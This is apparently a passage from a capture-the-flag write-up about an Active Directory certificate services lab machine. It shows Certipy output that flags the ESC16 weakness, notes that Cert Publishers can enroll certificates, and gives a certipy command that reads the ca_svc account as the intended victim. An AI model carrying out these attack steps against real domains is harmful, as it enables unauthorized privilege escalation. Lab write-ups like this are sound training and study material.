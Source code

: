 ```bash
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates
  0
    Template Name                       : KerberosAuthentication
```

**Key Findings:**
- Certificate Authority: `fluffy-DC01-CA`
- ESC16 vulnerability detected: Security Extension is disabled
- Cert Publishers group can enroll certificates

### ESC16 Vulnerability Analysis

The ESC16 vulnerability indicates that the Security Extension is disabled on the certificate authority, which can be exploited under certain conditions:

![ESC16](file-20250806151954104.png)

**ESC16 Details:**
- **Vulnerability:** Security Extension is disabled
- **Impact:** Allows certificate template manipulation
- **Prerequisites:** Cert Publishers group membership


> **Note:** Cert publishers can enroll at the ca -> ca_svc the victim for the attack
{: .prompt-info}

---

## ESC16 Attack Execution

### Certificate Service Account Analysis

Let's examine the `ca_svc` account details:

```bash
certipy account -k -dc-ip $IP -target $FQDN -user 'ca_svc' read
```

**Results:**
```bash
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-09-17T21:22:53+00:00
```
